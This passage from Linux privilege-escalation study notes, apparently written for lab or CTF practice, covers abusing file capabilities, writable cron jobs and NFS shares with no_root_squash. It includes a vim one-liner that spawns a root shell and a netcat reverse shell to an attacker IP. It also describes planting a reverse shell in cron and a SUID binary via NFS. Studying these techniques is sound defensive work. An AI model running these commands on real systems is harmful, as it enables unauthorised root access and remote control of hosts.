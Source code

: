 [](https://github.com/saisathvik1/Linux-Privilege-Escalation-Notes#capabilities)

- Capabilities are a bit similar to the SUID
- Capabilities provide a subset of root privileges to a process or a binary
- In order to look for them use `getcap -r / 2>/dev/null`
- Find the binary and check that on **GTFOBins** where there's a function for **Capabilities** and try out those any of them will work!
- In the example they provided a capability for `vim` and I used `./vim -c ':py3 import os; os.setuid(0); os.execl("/bin/sh", "sh", "-c", "reset; exec sh")'` which is provided in the website itself and I got root!
- Remember that this process is hit or trail, if it doesnt work move on!


## Cron Jobs

- Crons jobs are used for scheduling! Here we can schedule any binary/process to run.
- Interesting part here is that by default they run with the owner privileges.
- But if we find any cron-job which we can edit then we can do a lot!
- Cron job config is stored as **crontabs**
- To view crontab, `cat /etc/crontab`
- Any one can view it!
- Now we'll can see some cron-jobs see whether you can edit or not, if you can then edit with some reverse shell and listen!

```bash
#Detecting Cronjobs
cat /etc/crontab
crontab -l

pspy #handy tool to livemonitor stuff happening in Linux

grep "CRON" /var/log/syslog #inspecting cron logs
```
## NC Netcat
```bash
nc -nlvp <port> 
nc <attacker-ip> <port> -e /bin/bash
```
## NFS

- In order to view the configuration of NFS run `cat /etc/exports` or also we can type `showmount -e <target IP>` on our machine to find the **mountable shares**.
- In the output look for directories having `no_root_squash`, this means that the particular share is _writable_, hence we can do something to acquires root!
- Now after getting some directories where we can play around lets navigate to our attacker machine and create a sample directory anywhere like `/tmp`...etc
- Now we need to mount to the target machine by, `mount -o rw <targetIP>:<share-location> <directory path we created>`, here `rw` means read, write privileges.
- Now go to the folder we created and create a binary which gives us root on running.
- Then go back to the target machine and we can view the binary we created in the place we mounted, now run that and get root privileges!(do note that giving executable rights is not sufficient, we also need to give share rights by `chmod +s <binary>`)
- Then we're good to go!
  